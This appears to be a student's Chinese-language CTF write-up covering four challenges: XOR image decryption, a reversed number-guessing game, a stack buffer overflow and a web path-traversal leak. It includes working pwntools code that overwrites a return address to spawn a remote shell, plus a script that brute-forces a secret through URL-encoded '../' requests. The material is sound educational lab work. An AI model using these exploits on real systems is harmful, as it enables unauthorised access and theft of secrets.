









> Me: R10725012 呂晟維  
> CTF Account: ConstAaEqual7  
> Co-operator: R10725052  

## Crypto - Image xor
1. 題目附了一個加密的程式，可以發現他是用 `arr[i][j] ^= random.randint(0,255)` xor 來加密。
    - flag.png ^ randint =  enc_flag.png
    - golem.png ^ randint = enc_golem.png

2. 配合 xor 做兩次等於沒做的特性以及他的結合率，可以推得以下式子，把 randint 雜訊消除:
    - (flag.png ^ randint) ^ (golem.png ^ randint) = flag.png ^ golem.png

3. **Decrypt script**  
每種邏輯運算都做做看。  
```python
import cv2
from google.colab.patches import cv2_imshow

img_a = cv2.imread('flag_enc.png', cv2.IMREAD_GRAYSCALE)
img_b = cv2.imread('golem_enc.png', cv2.IMREAD_GRAYSCALE)

bitwiseOr = cv2.bitwise_or(img_a, img_b)
cv2_imshow(bitwiseOr)

bitwiseXor = cv2.bitwise_xor(img_a, img_b)
cv2_imshow(bitwiseXor)

bitwiseAnd = cv2.bitwise_and(img_a, img_b)
cv2_imshow(bitwiseAnd)

# 聽說這樣的畫質更清晰 cv2_imwrite(img_a ^ img_b)
```


## Rev - Global variable overflow

1. **Reverse engineering dumping C code**  
    這題是一個 XAYB 的猜數字遊戲，透過 IDA 反組譯出程式碼，嘗試接合 main、game_logic、gen_ans 三個函數，發現可以直接產生 flag 字串，但好像缺了幾個字。一時沒有頭緒只好換方法。
    

2. **Closer look into game logic**  
    仔細看 game_logic 函數，在遊戲開始時並不會直接要你猜數字，會先讓玩家輸入長度 %100s 的字串並存入 `backdoor` 變數，才呼叫 gen_ans() 產生出答案。疑? 原來 backdoor 是個未初始化的全域變數，可以在 `.bss` section 中發現未初始化的全域變數還有 4 個(如下)，這時會對四個全域變數做驗證，如果驗證通個會偷偷印出答案！  
    - byte_4082
    - byte_4088
    - byte_408D
    - byte_408E

    這 4 個全域變數大小都是一個 byte，在 C 中 char 型別剛好是 1 個 byte，範圍是 0x0000 ~ 0x1111，假如這四個變數都是 signed char 那他們的十進位範圍為 -128~127。 (補充: int 是 4B，short 是 2B) 
    
      
    

3. **Solve the Math Problem**  
    兩個 if 區塊的驗證是一段數學謎題，第一個 if 很簡單，除 8 回去就找到答案了；第二個 if 我們需要做質因數分解(Prime factorization)，也許有多種解法。
       變數 | 值 (#解一) | 值 (#解二)
    --------|-----------|----------
      byte_4082 | 71 = G | 71 = G
      byte_4088 | 78 = N | 126 = ~ 
      byte_408D | 110 = n | 131 = ƒ (超過127了舉得不好...)
      byte_408E | 105 = i | 88 = X

4. **Overflow to get the answer & win the game**  
    由於這四個變數是非連續儲存的，我們用字串 `a` 補齊空的記憶體位置，若採用解法一，我們輸入 aaGaaaaaNaaaani 以開始遊戲（G=71, N=78, n=110, i=105）:
    - G*8=568
    - n*i+N=11628  
    程式便會吐出答案，但是順序是倒序的。
    


## Pwn - Buffer overflow
1. **Checksec: No pie, No canary**
    - **canary**: 保護 return address 的機制。會在每個 function stack frame 的 local variable 之後 saved rbp 之前的位置，加上 8 bytes 的隨機值，在 function epilogue 時會檢查取用另一 segment 中 canary 的值檢查兩者是否一致，若不一致則直接 abort 調程式而不會進行 return。
    - **PIE**: Position-Independent Executable，若沒有開啟 PIE，程式載入的記憶體位址會與編譯時的位址相同，就等同我們在 gdb 等工具上看到的記憶體位址。若開啟 PIE，程式載入則是隨機的。
    - 這題的這兩個保護措施故意被關掉了，所以可以進行 bof 攻擊。

2. **Function *debug* is a webshell, but cannot reach**
    - 透過 objdump gdb 等工具，我們可以看到程式除了 main 方法還有一個 debug 方法，透過 IDA 反組譯看到他的原始碼是一個 shell，感謝助教開後門xdd；不過沒有方法呼叫到 debug 這題的伺服器又開在遠端，所以只能靠 bof 了。
    - __isoc99_scanf 沒有設定讀取的字串長度，會一路讀到 EOF，沒能擋下 bof。
```C
int debug()
{
  return system("sh");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  init();
  puts("Hey, nice to meet you!");
  puts("Just wanna ask, which linux distribution are you using?");
  __isoc99_scanf("%s", v4);
  puts(aOhhSweetByTheW);
  return 0;
}
```
3. **Found address of funtcion debug locates on 0x4011dd**  
    透過 objdump gdb IDA 等工具可以看到 debug 函數的進入點位置為 `0x4011dd`。

4. **Found address of variable *char v4[32]* has a size of 32 bytes**  
    從 IDA 的 stack 功能可以看到 main 函數中只有 var_20 這個變數，他佔有 32 bytes 的空間；我們需要先蓋掉 var_20 和 saved register 的記憶體才能 overflow 到 return address。如下圖。
    - 不重要的部分 32 + 8 = 40 bytes
    - return address = 8 bytes，可以藉由 `p64(0x4011dd)` 方法把字串補齊成 8 bytes 大小。
    
    

5. **Exploit script**

```python {linenos=table, linenostart=0}
from pwn import *

# c = process('./bof')

c = remote("up.zoolab.org", 30001)
context.arch = "amd64"
s = c.recvline()
print(s.decode(), end='')
s = c.recvline()
print(s.decode(), end='')

backdoor_address = p64(0x4011dd)
c.sendline(b"A"*40 + backdoor_address) #0x4011dd -> function: debug() -> get webshell: system("sh") -> grep -r FLAG{
c.interactive()

# FLAG{d1d_y0u_ju5t_s4y_w1nd0w5?}
```

## Web - API leak

題目公布的前後端的程式碼幾乎就包含所有線索了，原本想說先用 nmap recon 一下去戳看看有沒有隱藏的 service，也用字典檔找隱藏 endpoint，但毫無所獲，乖乖看懂程式碼然後解題吧。

:point_right: http://splitline.tw:5000/

使用工具:
- recon: nmap
- exploit: F12、postman、python-requests

1. **API flow & my attack flow**
    

2. **Found unused local endpoint** */looksLikeFlag*
    - 在網頁正常使用下我們都不會呼叫 "/looksLikeFlag" 這個 api endpoint，仔細看一下後端 express 這兩個 endpoint's url，如果我們能透過 text 變數回到上一層就可以戳到 /looksLikeFlag 了:
        - http://127.0.0.1:7414/api/v1/emoji/${text}
        - http://127.0.0.1:7414/api/v1/looksLikeFlag
    - 一般而言我們不可能，因為 api 格式就是固定的，但題目故意開一個漏洞讓我們可以由 `../` 返回上一層。注意要做 url encoding 規避掉 regex 的 `.` 句號檢查。(其實我第一個想到的漏洞是LFI，但這題環境是 nodeJS 不是 php，`?file=`這個參數他不收) 
    

3. **Found response body contain a looksLikeFlag parameter, can *brutefource* to retrieve flag digit by digit.**
```js
const { FLAG } = require('./secret.js');
...
apiRouter.use('/looksLikeFlag', (req, res, next) => {
    // 小提示: 照理來說assert只會出現在 unit test 中，暗示 FLAG 只包含這些字元。
    assert(FLAG.match(/^FLAG{[a-z0-9_]+}$/)); 
    // includes() 會核對API參數和真實的FLAG，只會回傳 true / false。
    res.send({ looksLikeFlag: FLAG.includes(req.query.flag) }); 
});
```

最終程式碼:  
:white_check_mark: 小技巧: 善用 string.digits 以及 string.ascii_lowercase。
```python {linenos=table, linenostart=0}
# Exploit the flag regex with brut-force requests
# request body: 
#   {"text": "%2E%2E/looksLikeFlag?flag=FLAG{xxxx}"}
#   FLAG{xxxx} is the flag
#   We need to find out string xxxx

import requests

host = "http://splitline.tw:5000/public_api"
exploitEndpoint = "%2E%2E/looksLikeFlag" # goback to the other endpoint: ../looksLikeFlag
flag = "" # store the flag with a list

# a-z 0-9 _ }
digits = [chr(ord('a') + i) for i in range(26)] + \
         [str(i) for i in range(10)] + ['_', '}']

# examine the flag digit by digit
while True:
    for i in digits:
        res = requests.post(host, json={"text": f"{exploitEndpoint}?flag=FLAG{{{flag}{i}"})
        if (res.status_code == 200) and (res.json()['looksLikeFlag'] == True):
            flag = flag + i
            print(flag)
    if flag[-1] == '}':
        break

print(f"FLAG{{{flag}")

## FLAG{3asy_p4th_tr4vers4l}
```